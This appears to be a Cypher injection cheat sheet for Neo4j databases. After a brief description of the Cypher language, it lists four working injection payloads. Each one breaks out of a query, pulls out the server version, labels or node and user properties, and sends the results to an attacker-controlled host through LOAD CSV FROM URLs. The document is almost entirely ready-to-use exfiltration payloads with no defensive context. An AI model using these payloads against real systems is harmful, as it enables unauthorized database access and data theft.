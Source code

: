 
# Description

Cypher is Neo4j's graph query language that lets you retrieve data from the graph. It uses “an ASCII-art type of syntax,” in which rounded brackets are used to represent nodes and square brackets represent relationships. If that sounds familiar, it's inspired by SQL (according to Neo4j).

# Injection Payloads

## Server version:

```
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.0.2.4:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

## Labels (like columns)

```
'}) RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://attacker_ip /?l='+label as l RETURN 0 as _0
```

## Get information from labels (data)

```
' OR 1=1 WITH 1 as a MATCH (f:Flag) UNWIND keys(f) as p LOAD CSV FROM 'http://10.0.2.4:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

## With WHERE clause:

```
' OR 1=1 WITH 1 as a MATCH (u:user) WHERE u.id=1 UNWIND keys(u) as p LOAD CSV FROM 'http://10.10.14.2/?' + p +'='+toString(u[p]) as l RETURN 0 as _0 //
```